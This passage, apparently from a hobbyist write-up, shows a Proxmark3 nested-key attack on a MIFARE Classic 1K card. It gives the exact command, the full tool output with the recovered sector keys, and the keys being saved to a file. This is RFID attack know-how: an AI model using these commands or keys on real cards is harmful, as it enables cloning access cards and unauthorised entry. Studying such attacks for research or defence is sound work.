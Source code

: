 Looks like `FFFFFFFFFFFF` is a valid key as well.

Now that we have 2 keys, let us try using a nested attack to find the rest of the keys.

_The 1 is the nested attack against 1k, 0 for block 0, B for the Key B using FFFFFFFFFFFF as the key and d to write the key to a binary file._
```c
[usb] pm3 --> hf mf nested 1 0 B FFFFFFFFFFFF d
[+] Testing known keys. Sector count=16          
.          
[+] Chunk: 2.3s | found 18/32 keys (24)

[+] Time to check 23 known keys: 2 seconds

[+] enter nested attack          
[+] target block:  0 key type: A          
[+] target block:  4 key type: A          
[+] target block: 16 key type: A  -- found valid key [d2623fbfa09a]          

[+] Chunk: 0.4s | found 31/32 keys (1)

[+] target block:  4 key type: A          
[+] target block:  4 key type: A  -- found valid key [2a2c13cc242a]          

[+] Chunk: 0.6s | found 19/32 keys (1)

[+] time in nested: 7 seconds

[=] trying to read key B...          
|---|----------------|---|----------------|---|          
|sec|key A           |res|key B           |res|          
|---|----------------|---|----------------|---|          
|000|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|001|  2a2c13cc242a  | 1 |  ffffffffffff  | 1 |          
|002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
|003|  ffffffffffff  | 1 |  ffffffffffff  | 1 |          
|004|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|005|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|006|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|007|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|008|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|009|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|010|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|011|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|012|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|013|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|014|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|015|  d2623fbfa09a  | 1 |  ffffffffffff  | 1 |          
|---|----------------|---|----------------|---|          
[+] saving keys to binary file hf-mf-90B78A01-key.bin
```

And voila! We have found all the keys to all the sectors.
